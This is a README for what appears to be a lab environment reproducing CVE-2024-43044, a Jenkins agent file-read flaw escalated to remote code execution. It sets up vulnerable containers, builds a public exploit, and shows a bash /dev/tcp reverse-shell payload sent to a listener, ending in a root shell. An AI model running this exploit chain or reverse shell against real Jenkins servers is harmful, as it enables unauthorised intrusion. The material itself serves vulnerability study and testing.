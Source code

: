 # CVE-2024-43044
Jenkins 2.470 and earlier, LTS 2.452.3 and earlier allows agent processes to read arbitrary files from the Jenkins controller file system by using the `ClassLoaderProxy#fetchJar` method in the Remoting library.

## Metrics
CVSSv2: N\A  
CVSSv3: 8.8 HIGH  

## Vulnerability Environment
Build and run:

```shell
docker compose build
docker compose up -d
```

Setup ssh cerificates and agent via Jenkins console:
1. Go to http://your-ip:8080/script
2. Insert config:
```groovy
def jenkinsHome = System.getenv('JENKINS_HOME')
def command1 = "java -jar ${jenkinsHome}/jar/jenkins-cli.jar -s http://localhost:8080/ groovy = < ${jenkinsHome}/groovy/add-credentials.groovy"
println new ProcessBuilder('sh','-c',command1).redirectErrorStream(true).start().text

def command2 = "java -jar ${jenkinsHome}/jar/jenkins-cli.jar -s http://localhost:8080/ -auth admin:admin create-node vulnforge-agent < ${jenkinsHome}/xml/add-agent.xml"
println new ProcessBuilder('sh','-c',command2).redirectErrorStream(true).start().text
```
3. Connect to agent and build exploit
```shell
ssh jenkins@your-ip -p 2222 -i ssh/jenkins_key
```
```shell
git clone https://github.com/convisolabs/CVE-2024-43044-jenkins
cd CVE-2024-43044-jenkins ; mvn package
```
Dry run:
```shell
java -jar target/CVE-2024-43044-1.0-SNAPSHOT.jar mode_attach http://jenkins:8080 id
```
```shell
jenkins@7e496555d0a5:~/CVE-2024-43044-jenkins$ java -jar target/CVE-2024-43044-1.0-SNAPSHOT.jar mode_attach http://jenkins:8080 "id"
MODE ATTACH
[*] Starting the exploit
    JAR file:              /home/jenkins/CVE-2024-43044-jenkins/target/CVE-2024-43044-1.0-SNAPSHOT.jar
    pid of remoting.jar:   587
    pid of SSH connection: 546
    cmd:                   id
    jenkinsUrl:            http://jenkins:8080
Agent attached successfully.
```

## Detection and exploitation example
### Exploitation
On attacker machine:
```shell
nc -lvnp 4444
```

On agent container:
```shell
java -jar target/CVE-2024-43044-1.0-SNAPSHOT.jar mode_attach http://jenkins:8080 'bash -i >& /dev/tcp/192.168.93.63/4444 0>&1'
```

Got reverse shell:
```shell
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 172.19.0.2 53432
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
root@6cc809610588:/# whoami
whoami
root
root@6cc809610588:/# 
```

## Exploits and PoCs
https://github.com/convisolabs/CVE-2024-43044-jenkins

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2024-4304](https://nvd.nist.gov/vuln/detail/cve-2024-43044)  
[Conviso Blog: Analysis of CVE-2024-43044 — From file read to RCE in Jenkins through agents](https://blog.convisoappsec.com/en/analysis-of-cve-2024-43044/)  
[Habr: Анализ CVE-2024-43044 — от чтения файлов до удаленного выполнения кода в Jenkins через агентов](https://habr.com/ru/articles/850248/)  

## Notes and TODOs
- [ ] Add setup scripts to auto start with Jenkins init   
- [ ] Add (optional) agent with url\node\secret config  